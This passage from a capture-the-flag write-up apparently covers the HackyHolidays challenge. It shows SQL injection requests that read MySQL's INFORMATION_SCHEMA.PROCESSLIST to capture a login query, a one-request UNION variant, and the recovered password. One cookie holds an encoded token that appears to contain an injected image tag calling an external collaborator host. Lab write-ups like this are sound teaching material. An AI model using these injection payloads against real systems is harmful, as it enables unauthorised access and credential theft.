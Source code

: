 6. Given the information above and a few hints shared by adam (the evil creator of this), We know that
  - The grinch logins often in the server
  - He is also affected by a time delay, even with a valid login

Based on the information above, we consider that maybe since there is a time delay, the SQL query that handles the login will be stored in some place until the 5 seconds pass and it gets evaluated.
After googling a bit we come up with the following table that is of interest
`The INFORMATION_SCHEMA PROCESSLIST Table` (more info [here](https://dev.mysql.com/doc/refman/8.0/en/information-schema-processlist-table.html) )
The table has a column named `INFO` that is of interest to us, since it seems to store the actual query. We can therefore use our SQL injection to attempt to read from that table the `INFO column`

7. Another problem we have is that the endpoint that is vulnerable to SQLi only returns a response of 10 characters long. 
Therefore we ll need to adjust our injection in order to extract the content we want. the request bellow will extract the first part of the password. We can increase the second vaue in the mid() fucntion to extract more parts of the password
```http
GET /infrastructure_management/get_column?column=mid(info,69,10)+FROM+INFORMATION_SCHEMA.PROCESSLIST-- HTTP/1.1
Host: c2.hackyholidays.h1ctf.com
Cookie: candc_token=d7f97196a4a18de63ed841abbea89fd8; authorisation_token=eyJ0b2tlbiI6IlwiPjxpbWcrc3JjPWh0dHA6Ly8ydHd1Y2cyMGR2aDRqbDl1cThxOGt6OGVmNWwzOXMuYnVycGNvbGxhYm9yYXRvci5uZXQ+Iiwic2VydmVyIjoiMTcyLjEwNS5YWC5YWDo4MDAwL1wvP2Zvbz0ifQ==
Connection: close
```
![Screenshot from 2021-12-22 03-42-13](https://user-images.githubusercontent.com/55701068/151602530-8f6a2256-bb46-46af-b01a-908f48160e4b.png)

We continue to attempt to capture the login query by the grinch since he logins every 1 minute and we end up with the password below
**Grinch Password**
`Yo9R38!IdobFZF6eFS3#`

After finishing the CTF it was identified that the flag could be extacted with just one request (credits to Jeti for this)
```http
GET /infrastructure_management/get_column?column=mid(info,71,10)+FROM+INFORMATION_SCHEMA.PROCESSLIST+where+state+like+'%25sleep'+union+all+select+mid(info,81,10)+FROM+INFORMATION_SCHEMA.PROCESSLIST+where+state+like+'%25sleep'+union+all+select+mid(info,91,10)+FROM+INFORMATION_SCHEMA.PROCESSLIST+where+state+like+'%25sleep'+and+info+like+'%25grinch%25'-- HTTP/1.1
Host: c2.hackyholidays.h1ctf.com

```

8. We can login now with the credentials
`grinch:Yo9R38!IdobFZF6eFS3#`

And see the panel for the successful attacks the grinch made

![control-c2](https://user-images.githubusercontent.com/55701068/151602609-af82cdd1-9a82-4503-87be-f43df35e06dd.png)

We can then `Burn Infrastructure` and grab the flag


![final-flag](https://user-images.githubusercontent.com/55701068/151602679-6f6232f3-e9f4-46f9-9cf9-f2c54f6d2381.png)

